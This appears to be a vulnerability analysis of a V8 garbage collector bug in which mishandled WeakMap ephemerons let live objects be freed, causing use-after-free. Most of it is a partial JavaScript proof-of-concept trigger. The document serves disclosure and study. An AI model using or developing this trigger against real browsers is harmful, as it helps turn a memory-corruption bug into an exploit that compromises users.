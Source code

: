 ```js

function setUpWeakMap(map) {
  let hk = hideWeakMap(map, level, initKey);
  let hiddenMap = map.get(hk);
  let map7 = new WeakMap();
  let map8 = new WeakMap();
  let k5 = {k5 : 1};
  let map5 = new WeakMap();
  let k7 = {k7 : 1};
  let k9 = {k9 : 1};
  let k8 = {k8 : 1};
  let v9 = {};
  map.set(k7, map7);
  map.set(k9, v9);
  hiddenMap.set(k5, map5);
  hiddenMap.set(hk, k5);
  map5.set(hk, k7);
  map7.set(k8, map8);
  map7.set(k7, k8);
  map8.set(k8,k9);
  
}

function main() {
    setUpWeakMap(map1);

    new ArrayBuffer(0x7fe00000);
    let hiddenKey = getHiddenKey(map1, level, initKey);
    let hiddenMap = map1.get(hiddenKey);
    let k7 = hiddenMap.get(hiddenMap.get(hiddenKey)).get(hiddenKey);
    let k8 = map1.get(k7).get(k7);
    let map8 = map1.get(k7).get(k8);

    console.log(map1.get(map8.get(k8)));
}

while (true) {
  try {
    main();
  } catch (err) {}
}
```

**Exploit sample:** N/A

**Did you have access to the exploit sample when doing the analysis?** N/A

## The Vulnerability

**Bug class:** Logic bug, but the result is use-after-free

**Vulnerability details:** When handling ephemerons (`WeakMap`, `WeakSet` etc.), a logic bug in the v8 garbage collector means that live objects may remain unmarked and be collected, leading to use-after-free.
